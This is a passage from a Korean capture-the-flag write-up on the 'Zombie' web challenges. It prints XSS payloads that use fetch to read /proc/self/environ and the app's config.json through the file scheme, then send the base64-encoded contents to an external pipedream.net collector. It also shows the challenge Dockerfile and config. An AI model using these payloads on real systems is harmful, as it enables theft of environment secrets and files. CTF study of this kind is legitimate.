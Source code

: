 `file` scheme을 이용하여 환경변수에 저장된 값을 읽도록 하였습니다.  
```python
PAYLOAD = '<script>fetch("file:///proc/self/environ").then(function(x){return%2520x.text();}).then(function(xx){location.href="https://eo83ud3n5uavhrd.m.pipedream.net/f="%252bbtoa(xx)})</script>'
```
{: file='z3.py'}
<br/>

![z3](../../../assets/img/2023-03-20/z3.png){: w="700" h="350" }  
<br/>


## Zombie 401 (487pt)(solved)
***
`401`은 `secret-flag`가 따로 있습니다.
```plaintext
configFile: '{"flag": "find-the-secret-flag" ,"httpOnly": false, "allowDebug": true, "secret-flag": "wctf{redacted}"}'
```
{: file='docker-compose.yml'}
<br/>

이 문제들의 `Dockerfile`을 보면 위의 `configFile`을 `./config.json`에 씁니다. 따라서 이 파일을 읽으면 되겠죠?🙃  
```plaintext
FROM node:19-bullseye-slim

ARG configFile
RUN echo "${configFile}"

RUN mkdir -p /ctf/app
WORKDIR /ctf/app
COPY ./package.json ./
COPY ./package-lock.json ./
RUN npm install

COPY ./ ./
RUN echo "${configFile}" > ./config.json

EXPOSE 80

# run the app as a user who cannot modify the above files
USER node
CMD ["node", "index.js"]

```
{: file='Dockerfile'}
<br/>

```python
PAYLOAD = '<script>fetch("file:///ctf/app/config.json").then(function(x){return%2520x.text();}).then(function(xx){location.href="https://eo83ud3n5uavhrd.m.pipedream.net/f="%252bbtoa(xx)})</script>'
```
{: file='z4.py'}
<br/>
